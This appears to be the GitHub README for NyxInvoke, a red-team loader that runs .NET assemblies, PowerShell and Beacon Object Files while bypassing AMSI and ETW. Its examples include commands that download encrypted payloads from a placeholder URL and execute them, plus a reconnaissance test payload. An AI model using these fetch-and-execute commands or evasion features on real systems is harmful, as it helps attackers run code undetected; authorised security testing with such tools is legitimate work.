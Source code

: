 # NyxInvoke

NyxInvoke is a rust based command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```
2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help                                Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help                                Print help
```

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

2. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```

## Screenshot

![Screenshot 2024-09-17 164409](https://github.com/user-attachments/assets/ba9b9200-226b-4179-a442-558be35b1dd9)

![Screenshot 2024-09-17 164446](https://github.com/user-attachments/assets/956d0a70-42cf-443c-8302-9cae967d7624)

![Screenshot 2024-09-17 164521](https://github.com/user-attachments/assets/9c992be6-902a-46b5-bafd-35909e7080a2)

![Screenshot 2024-09-17 164737](https://github.com/user-attachments/assets/a0b49a19-5657-47f6-ad15-92376b405b77)

![Screenshot 2024-09-17 171636](https://github.com/user-attachments/assets/296bedfd-4bb9-4905-8391-c456fc591fe3)

![Screenshot 2024-09-17 172028](https://github.com/user-attachments/assets/d055cb24-c8f0-4df7-b358-12a061f33c50)


## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

